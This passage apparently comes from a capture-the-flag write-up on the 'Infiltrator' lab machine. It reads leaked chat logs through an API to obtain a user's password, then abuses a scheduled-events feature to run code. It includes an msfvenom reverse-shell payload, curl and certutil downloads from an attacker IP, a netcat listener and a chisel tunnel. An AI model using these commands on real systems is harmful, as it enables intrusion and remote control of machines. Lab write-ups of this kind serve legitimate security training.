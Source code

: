 ![](/assets/images/writeups/infiltrator/OM-room-key.png)

Now we can attempt to read the logs by specifying a date range.

```powershell
PS C:\> curl.exe -H 'Accept: application/json, text/javascript, */*;' -H 'API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG' -H 'Host: localhost:14125' 'http://localhost:14125/api/chatrooms/logs?roomkey=20240220014618@conference.com&fromdate=2024/02/01&todate=2024/03/01'
```

At the bottom, we find the credentials for `o.martinez`.

```
o.martinez:m@rtinez@1996!
```

Unfortunately, these are not domain credentials but we can still login to the OM client again. The message with `winrm_svc` also mentioned the following:

``` 
I'm getting random website pop-ups on my desktop every day at 09:00 AM. I suspect there's an issue with the app
```

So martinez been cryin in the club (OM chat) like "wahh my desktop opening random websites at 9AM 😭". Bro. you fr just told me you got **task scheduler malware edition** installed and running.

From the application, there is a feature to run programs and open website on a designated time. When we try this out and for instance just launch the default browser application, it indeed opens on the local machine. Just a spicy lil feature called **"Scheduled Events"**, which basically goes:
> “hey, wanna open calc.exe on ur coworker's PC at 3am? go for it.”

I also noticed that Martinez always is in the idle state so maybe we can upload a reverse shell to the DC and execute it in the context of Martinez. Let's try! Metasploit payload goes brrr...

```console
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.7 lport=443 -f exe -o payload.exe

[10.10.11.31]: PS C:\Windows\Temp> curl.exe http://10.10.14.7:8000/payload.exe -o payload.exe

PS C:\> C:\Tools\nc64.exe -nlvp 443
```


[dc01.infiltrator.htb]: PS C:\Users\M.harris\Documents> certutil -f -urlcache http://10.10.14.7:8000/chisel.exe C:\Windows\Temp\chisel.exe
[dc01.infiltrator.htb]: PS C:\Windows\Temp> .\chisel.exe client 10.10.14.7:8080 R:14121:127.0.0.1:14406